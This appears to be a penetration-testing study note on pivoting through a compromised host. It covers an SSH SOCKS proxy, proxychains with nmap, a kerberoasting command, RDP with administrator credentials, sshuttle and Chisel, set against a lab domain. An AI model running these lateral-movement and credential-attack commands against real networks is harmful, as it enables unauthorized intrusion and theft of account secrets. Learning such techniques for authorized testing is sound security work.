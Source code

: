 Create an SSH connection to the compromised machine:
```bash
ssh -f -N -D 9050 root@compromised-host
```
Args:
`-f`: Requests ssh to go to background
`-N`: Do not execute a remote command. This is useful for just forwarding ports.
`-D 9050`: Specifies  a local “dynamic” application-level port forwarding.  This works by allocating a socket to listen to port on the local side \[...]. Whenever a connection is made to this port, the connection is forwarded over the secure channel, and the application protocol is then used to determine where to connect to from the remote machine.  \[...] ssh will act as a SOCKS server.

# Proxychains

**Why port 9050?**
To execute commands on network 2 via the established SSH connection, we are going to use the program *proxychains*.
If we take a look at the last line of */etc/proxychains4.conf* is says:
`socks4  127.0.0.1 9050`
That means that *proxychains* per default is connecting to a socks4 proxy on port 9050.

>[!Info] Proxychains
>*Proxychains* forces any tcp connection made by any given tcp client to follow through proxy.

We use *proxychains* with *nmap* to scan a machine on network 2 via the SSH socks proxy:
```bash
proxychains nmap -p 443 10.10.10.10.3
```

---

We can also do a *kerberoasting* attack:
```bash
proxychains GetUserSPNs.py MARVEL.local/frank:Password1 -dc-ip 10.10.10.10.3 -request
```

---

Or we can RDP to a machine:
```bash
proxychains xfreerdp /u:administrator /p:'Password123' /v:10.10.10.10.3
```

---

Or we can use Firefox access a web application on the remote machine on network 2:
```bash
proxychains firefox
```

# sshuttle

>[!Info] sshuttle
>sshuttle allows you to create a VPN connection from your machine to any remote server that you can connect to via ssh.

Create a VPN connection:
```bash
sshuttle -r root@compromised-host 10.10.10.0/24
```
Args:
`-r`: The remote hostname and optional username and ssh port number to use for connecting to the remote server.
`10.10.10.0/24`: A subnet to route over the VPN

As soon as the VPN connection is established you can run commands as if you were on that remote subnet:
E.g. run *nmap*:
```bash
nmap -p 443 10.10.10.10.3
```

# Chisel

Another tool is: https://github.com/jpillora/chisel

>[!Info]
>Chisel is a fast TCP/UDP tunnel, transported over HTTP, secured via SSH.

![[Pasted image 20240326095229.png]]